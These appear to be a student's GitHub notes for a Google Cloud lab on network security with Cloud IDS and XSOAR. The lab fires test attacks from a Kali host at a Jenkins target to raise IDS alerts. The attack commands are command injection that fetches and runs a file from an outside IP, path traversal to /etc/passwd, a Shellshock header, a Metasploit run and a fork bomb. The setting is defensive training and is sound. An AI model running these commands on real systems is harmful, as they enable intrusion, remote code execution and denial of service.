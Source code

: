 ### GSP1117 :  Enhancing Google Cloud Network Security 

<img width="895" alt="Ac9SwKvKfspE1ZKfqcy_VZ+IJUJ4sQoqI0fJoNzznv4=" src="https://github.com/tariqsheikhsw/GoogleCloudArchitectLabs/assets/54164634/5e0ddde9-c38f-40f0-8b29-dda836d1c737">

![image](https://github.com/tariqsheikhsw/GoogleCloudArchitectLabs/assets/54164634/c4830dc2-7d43-44ab-8b47-830a8b701899)


# Kali attack launch against JENKINS 

```
ssh kali@34.168.0.62
//kali

wget www.eicar.org/download/eicar.com.txt --tries 5

curl http://192.168.11.4:8080/?[1-10]

curl "http://192.168.11.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"
curl http://192.168.11.20/?item=../../../../WINNT/win.ini
curl http://192.168.11.20/eicar.file
curl http://192.168.11.20/cgi-bin/../../../..//bin/cat%20/etc/passwd
curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.11.20/cgi-bin/test-critical
echo done
```

```
msfconsole -r jenkins.rc

python -c 'import pty; pty.spawn("/bin/bash")'

whoami

:(){ :&:;};:
```

# CloudIDS Query

```
resource.type:("ids.googleapis.com/Endpoint") AND resource.labels.location:("us-west1-a")
jsonPayload.application="jenkins"
```

# XOAR

```
gcloud pubsub topics create cloud-ids-topic

gcloud pubsub subscriptions create cloud-ids-sub \
    --topic="cloud-ids-topic" \
    --ack-deadline="10" \
    --expiration-period="2678400s" \
    --message-retention-duration="604800s"

gcloud compute firewall-rules create xsoar-blacklist \
    --direction=INGRESS \
    --priority=10 \
    --network=panw-trust-vpc \
    --action=DENY \
    --rules=all \
    --source-ranges=1.1.1.1
```


# Sink Inclusion Filter 

```
logName="projects/qwiklabs-gcp-02-927b48c7055b/logs/ids.googleapis.com%2Fthreat"
jsonPayload.alert_severity="CRITICAL"
```

# XOAR 

```
//Service Account Private Key File (JSON)

//Playbook : Cloud IDS-IP Blacklist-GCP Firewall_Combine
```

![image](https://github.com/tariqsheikhsw/GoogleCloudArchitectLabs/assets/54164634/eb5b8b2d-e4d1-4805-83a3-9dd2192be1bf)



# SSH Kali 

```
ssh kali@34.168.0.62
//kali

curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.11.20/cgi-bin/test-critical
```

# XOAR Incidents 

```
type:"google cloud IDS" and status:Closed
```


![Uploading GE_TqiVgRR1STkAluhcBxe0KtUzgWtXRfv_Re5aEB6U=.png…]()


